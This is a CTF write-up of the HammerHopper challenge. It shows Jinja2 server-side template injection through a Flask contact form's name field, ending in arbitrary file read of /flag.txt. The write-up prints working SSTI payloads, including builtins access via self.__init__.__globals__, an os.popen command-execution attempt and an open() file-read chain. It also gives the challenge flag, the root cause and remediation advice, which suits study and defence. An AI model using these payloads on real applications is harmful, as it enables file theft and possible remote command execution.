




# HammerHopper — CTF Write-up



## Challenge Summary

HammerHopper is a construction company website with a working contact form.

The challenge description hinted that the issue was related to what the form did with the submitted name “on the way back” to the user.

The goal was to investigate whether the contact form reflected user input unsafely and whether that reflection could be abused to retrieve the flag.

## Initial Recon

After opening the challenge site, I saw a polished construction company website with normal public pages such as services, recent projects, and contact information.


The interesting part was the contact form.



The form submitted to the same endpoint:

```http
POST /contact
```

The request body contained four fields:

```http
name=tester&email=tester%40gmail.com&phone=0881881888&message=tester
```

After submitting a normal enquiry, the application returned a thank-you page.

The submitted name was reflected in the response:

```html
<h1 class="thanks-h">Thank you tester, we'll get back to you!</h1>
```

This confirmed that the `name` field was being inserted into the response page.

At this point, the main question was whether the value was only reflected as plain HTML, or whether it was being processed by a server-side template engine.

## Testing for Template Injection

I tested the `name` field with a simple template expression:

```jinja2
{{7*7}}
```

The submitted request body looked like this:

```http
name={{7*7}}&email=tester%40gmail.com&phone=0881881888&message=tester
```

The response evaluated the expression:

```html
<h1 class="thanks-h">Thank you 49, we'll get back to you!</h1>
```

This confirmed Server-Side Template Injection.

The input was not only reflected back to the page. It was being evaluated by the server-side template engine before being returned.



## Template Engine Fingerprinting

To understand the template environment, I tested several Jinja-style expressions.

Some useful payloads were:

```jinja2
{{config}}
```

```jinja2
{{request}}
```

```jinja2
{{self}}
```

```jinja2
{{cycler}}
```

```jinja2
{{lipsum}}
```

The responses exposed Flask and Jinja-related objects, including:

```text
<Config {...}>
```

```text
<Request 'http://.../contact' [POST]>
```

```text
<TemplateReference None>
```

```text
<class 'jinja2.utils.Cycler'>
```

```text
<function generate_lorem_ipsum at ...>
```

This confirmed that the backend was using Flask with Jinja templates.

## Testing Command Execution

After confirming Jinja SSTI, I tested a common command execution payload:

```jinja2
{{cycler.__init__.__globals__.os.popen('id').read()}}
```

However, the payload was reflected back instead of being executed:

```html
Thank you {{cycler.__init__.__globals__.os.popen(&#39;id&#39;).read()}}, we'll get back to you!
```

This suggested that the expression failed to evaluate and the application reflected the original payload back into the page.

The HTML-escaped quotes appeared in the reflected output, but this did not mean that quotes were always unusable inside template expressions. It only showed that this specific command execution chain was not successful.

At this point, I continued looking for a more reliable path through the template context.

## Accessing Python Builtins

I then tested whether the Jinja `self` object could reach Python builtins.

The payload was:

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

The response leaked the Python builtins dictionary.

Important entries included:

```text
'__import__': <built-in function __import__>
```

```text
'open': <built-in function open>
```

```text
'eval': <built-in function eval>
```

```text
'exec': <built-in function exec>
```

This confirmed that the template context could access dangerous Python built-in functions.

Since the command execution payload was unreliable, I switched to a shorter arbitrary file read payload using `open()`.

## Arbitrary File Read

The useful primitive was Python’s built-in `open()` function.

The final file read payload was:

```jinja2
{{self.__init__.__globals__.__builtins__.open('/flag.txt').read()}}
```

I placed this payload in the `name` field:

```http
name={{self.__init__.__globals__.__builtins__.open('/flag.txt').read()}}&email=tester%40gmail.com&phone=0881881888&message=tester
```

The server evaluated the payload and returned the contents of `/flag.txt` in the thank-you message:

```html
<h1 class="thanks-h">Thank you WEBVERSE{8db5610654099fbcef98a53a1bb76026}
, we'll get back to you!</h1>
```

This confirmed arbitrary file read through the SSTI vulnerability.



## Flag

```text
WEBVERSE{8db5610654099fbcef98a53a1bb76026}
```

## Root Cause

The application placed the submitted `name` value into a server-side template in an unsafe way.

The vulnerable logic was likely similar to:

```python
render_template_string(f"Thank you {name}, we'll get back to you!")
```

The issue is that user-controlled input became part of the template source itself.

Because of that, input such as:

```jinja2
{{7*7}}
```

was evaluated by Jinja and returned as:

```text
49
```

A safer implementation should pass the name as template data instead of rendering it as template code:

```python
render_template("thanks.html", name=name)
```

The template should then render the variable normally:

```jinja2
Thank you {{ name }}, we'll get back to you!
```

This keeps user input as data and prevents it from being interpreted as template syntax.

## Impact

The vulnerability allowed an attacker to inject Jinja template expressions through the contact form `name` field.

In this challenge, the impact was arbitrary file read.

By reaching Python builtins through the Jinja template context, I was able to use:

```python
open()
```

to read:

```text
/flag.txt
```

In a real application, this type of SSTI could expose sensitive files, environment variables, source code, credentials, or potentially lead to remote command execution depending on the runtime and filtering.

## Remediation

The application should not render user input as template source.

Recommended fixes:

* Do not use `render_template_string()` with user-controlled input
* Pass user input as template variables only
* Keep Jinja autoescaping enabled
* Validate and length-limit form fields
* Avoid exposing dangerous objects or globals to templates
* Add tests for template injection payloads such as `{{7*7}}`

## Conclusion

The contact form reflected the submitted `name` value into the thank-you page.

Testing with:

```jinja2
{{7*7}}
```

confirmed that the value was evaluated by the Jinja template engine, proving Server-Side Template Injection.

After fingerprinting the environment as Flask/Jinja, I accessed Python builtins through:

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

Then I used the built-in `open()` function to read the flag file:

```jinja2
{{self.__init__.__globals__.__builtins__.open('/flag.txt').read()}}
```

This allowed me to retrieve the flag from the server.

This was a Server-Side Template Injection vulnerability leading to arbitrary file read.
